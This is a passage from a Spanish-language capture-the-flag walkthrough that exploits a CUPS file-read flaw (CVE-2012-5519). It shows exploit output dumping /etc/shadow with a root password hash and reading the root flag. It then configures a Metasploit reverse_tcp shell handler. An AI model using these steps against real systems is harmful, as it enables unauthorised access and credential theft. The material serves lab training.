 ```bash
[i] of the script and exploit, please visit:
[i] https://github.com/0zvxr/CVE-2012-5519/blob/main/README.md
[>]
```
Bien, nos explica que podemos enumerar archivos de la máquina con solo poner el archivo que queramos, por ejemplo, el **/etc/shadow**.

* Prueba a ver el **/etc/shadow**:
```bash
[>] /etc/shadow
[+] contents of /etc/shadow:
root:$6$UgdyXjp3KC.86MSD$sMLE6Yo9Wwt636DSE2Jhd9M5hvWoy6btMs.oYtGQp7x4iDRlGCGJg8Ge9NO84P5lzjHN1WViD3jqX/VMw4LiR.:18760:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
sys:*:18375:0:99999:7:::
...
...
```

Excelente, entonces podemos ver cualquier archivo que queramos, recuerda que la flag, siempre está en la carpeta root. Vamos a ver si la puede mostrar:
```bash
[>] /root/root.txt                                                                                                                     
[+] contents of /root/root.txt:
...
```
Listo, ya tenemos la completada la máquina.

<br>

<h3 id="CUPS3">Probando Exploit: Módulo cups_root_file_read de Metasploit</h3>

Para que podamos usar este módulo de **Metasploit**, necesitamos obtener una sesión de **Meterpreter**.

Vamos a obtenerla por pasos:

* Para hacerlo de forma rapida, vamos a crear un archivo que tenga el **handler** ya configurado, lo puedes hacer así:
```bash
nano handler.rc
------
use exploit/multi/handler
set LHOST Tu_IP
set LPORT 4444
set PAYLOAD linux/x64/shell/reverse_tcp
exploit
```
Especificamos la arquitectura en el **PAYLOAD** porque la podemos consultar en la máquina, si no, tendría que indicarse sin arquitectura y la pusimos como **Shell** porque con **Meterpreter** no se pudo.

* Ahora ejecuta ese archivo con **Msfconsole**:
```bash
msfconsole -r handler.rc
```
